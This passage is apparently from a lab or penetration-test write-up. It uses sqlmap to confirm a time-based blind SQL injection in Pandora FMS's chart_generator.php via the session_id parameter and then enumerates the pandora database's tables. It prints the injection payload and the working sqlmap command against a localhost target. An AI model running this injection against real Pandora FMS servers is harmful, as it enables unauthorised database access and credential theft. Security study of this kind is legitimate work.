 ```
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=''' AND (SELECT 6429 FROM (SELECT(SLEEP(5)))KdsF)-- bkmF
---
...

[*] ending @ 15:18:00 /2022-05-17/
```

> Is vulnerable!

#### SQL Tables

With this vulnerability we can see others tables of the database. Let's have a look at the tables of pandora database.

```
❯ sqlmap --url "http://localhost:8080/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables

Database: pandora
[178 tables]
+------------------------------------+
| ... |
| tnotification_source_user |
| tnotification_user |
| torigen |
| tpassword_history |
| tperfil |
| tphase |
| tplanned_downtime |
| tplanned_downtime_agents |
| tplanned_downtime_modules |
| tplugin |
| tpolicies |
| tpolicy_agents |
| tpolicy_alerts |
| tpolicy_alerts_actions |
| tpolicy_collections |
| tpolicy_groups |
| tpolicy_modules |
| tpolicy_modules_inventory |
| tpolicy_plugins |
| tpolicy_queue |
| tprofile_view |
| tprovisioning |
| tprovisioning_rules |
| trecon_script |
| trecon_task |
| trel_item |
| tremote_command |
| tremote_command_target |
| treport |
| treport_content |
| treport_content_item |
| treport_content_item_temp |
| treport_content_sla_com_temp |
| treport_content_sla_combined |
| treport_content_template |
| treport_custom_sql |
| treport_template |
| treset_pass |
| treset_pass_history |
| tserver |
| tserver_export |
| tserver_export_data |
```